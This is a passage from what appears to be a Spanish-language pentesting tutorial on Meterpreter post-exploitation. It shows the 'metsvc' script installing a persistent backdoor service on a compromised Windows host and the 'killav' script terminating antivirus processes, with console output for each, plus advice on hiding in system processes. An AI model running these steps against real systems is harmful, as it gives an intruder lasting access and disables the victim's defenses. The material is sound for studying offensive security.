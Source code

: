 metsvc
Permite definir un proceso persistente en la maquina objetivo que se encontrará a la espera de una nueva conexión por parte del atacante, para esto será necesario en primer lugar “migrar” el proceso de la sesión meterpreter actual a otro proceso “persistente” del objetivo, del modo en el que se ha indicando anteriormente con el comando migrate, por este motivo los procesos que resultan mas interesantes son aquellos propios del sistema operativo, posteriormente se puede ejecutar:

```
meterpreter > run metsvc

[*] Creating a meterpreter service on port 31337

[*] Creating a temporary installation directory C:\DOCUME~1\Owner\LOCALS~1\Temp\lZBdswMe…

[*] >> Uploading metsrv.dll…

[*] >> Uploading metsvc-server.exe…

[*] >> Uploading metsvc.exe…

[*] Starting the service…

* Installing service metsvc

* Starting service

Service metsvc successfully installed.
```

Como se puede apreciar la backdoor se ha instalado correctamente en el objetivo, ahora es posible realizar una conexión activa (ya no es necesario esperar de forma pasiva a que un usuario ejecute el fichero .exe que habilitará la sesión meterpreter).

killav

##### En muchas ocasiones en la maquina objetivo existen programas de antivirus instalados, lo que dificultará tareas comunes e inclusive triviales, por esta razón existe el script killav que intentará terminar todos los procesos de antivirus en el objetivo:
meterpreter > run killav
```
[*] Killing Antivirus services on the target…

[*] Killing off avgrsx.exe…

meterpreter >
```

Aunque con este comando se supone que se deberían eliminar los procesos de monitoreo como Antivirus, en algunos casos no funciona correctamente, en especial cuando se trata de antivirus que tienen procesos persistentes/resilentes y que no pueden ser detenidos con los mecanismos convencionales, es en estos casos en los que se deben emplear mecanismos mas elaborados para desactivar esta clase de servicios en la maquina comprometida, aquí entra en juego un proceso de recolección de información y análisis de las defensas del objetivo.
